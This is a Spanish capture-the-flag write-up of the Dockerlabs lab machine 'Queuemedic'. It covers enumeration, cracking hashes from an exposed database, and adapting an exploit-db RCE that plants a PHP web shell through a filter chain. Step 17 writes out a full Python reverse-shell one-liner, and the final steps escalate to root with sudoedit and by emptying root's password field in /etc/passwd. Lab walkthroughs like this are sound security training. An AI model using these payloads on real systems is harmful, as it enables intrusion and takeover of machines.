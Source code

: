 # Docerlabs - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925173823.png)

***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![](ANEXOS/Pasted%20image%2020240925174021.png)
***Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.***

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![](ANEXOS/Pasted%20image%2020240925174813.png)
***Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.***

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![](ANEXOS/Pasted%20image%2020240925175148.png)
***Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.***

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![](ANEXOS/Pasted%20image%2020240925175503.png)
***Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.***

### 7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![](ANEXOS/Pasted%20image%2020240925175854.png)
	***Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".***
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![](ANEXOS/Pasted%20image%2020240925180826.png)
	***Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list***
	![](ANEXOS/Pasted%20image%2020240925181901.png)
	***Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.***
	
### 8) Ataque de diccionario a los hashes encontrados.
	a) ***Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.***
	b) ***Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.***
	
	![](ANEXOS/Pasted%20image%2020240925183606.png)
	![](ANEXOS/Pasted%20image%2020240925183512.png)
	c) ***Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".***

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925184644.png)
***Iniciamos sesión con las credenciales obtenidas.***
![](ANEXOS/Pasted%20image%2020240925184845.png)
***Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.***

### 10) Busueda de Clinic Queuing System (php) en google.
![](ANEXOS/Pasted%20image%2020240925185754.png)
***Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.***

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![](ANEXOS/Pasted%20image%2020241011082236.png)

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![](ANEXOS/Pasted%20image%2020241011083138.png)

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![](ANEXOS/Pasted%20image%2020241011085843.png)
	***El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.***
	![](ANEXOS/Pasted%20image%2020241011090029.png)
	***Ya tengo ejecución de comandos ***

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
![](ANEXOS/Pasted%20image%2020241011090521.png)
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
![](ANEXOS/Pasted%20image%2020241011092359.png)

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
![](ANEXOS/Pasted%20image%2020241011092814.png)

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
![](ANEXOS/Pasted%20image%2020241011102543.png)

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103016.png)

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
![](ANEXOS/Pasted%20image%2020241011103622.png)

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
![](ANEXOS/Pasted%20image%2020241011103944.png)

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![](ANEXOS/Pasted%20image%2020241011104942.png)
